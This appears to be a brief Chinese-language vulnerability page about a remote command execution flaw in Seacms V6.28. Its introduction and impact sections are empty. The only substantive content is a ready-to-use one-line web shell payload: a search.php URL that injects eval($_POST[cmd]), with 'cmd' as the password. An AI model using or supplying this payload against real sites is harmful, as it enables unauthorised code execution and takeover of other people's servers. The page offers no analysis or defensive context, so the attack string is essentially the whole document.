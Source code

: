 ```yaml
---
title: Seacms V6.28
id: zhfly3113
---
```


# Seacms V6.28 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
一句话payload，密码cmd: `[http://0-sec.org/search.php?searchtype=5&tid=&area=eval($_POST[cmd])](http://0-sec.org/search.php?searchtype=5&tid=&area=eval(%24_POST%5Bcmd%5D))` 
```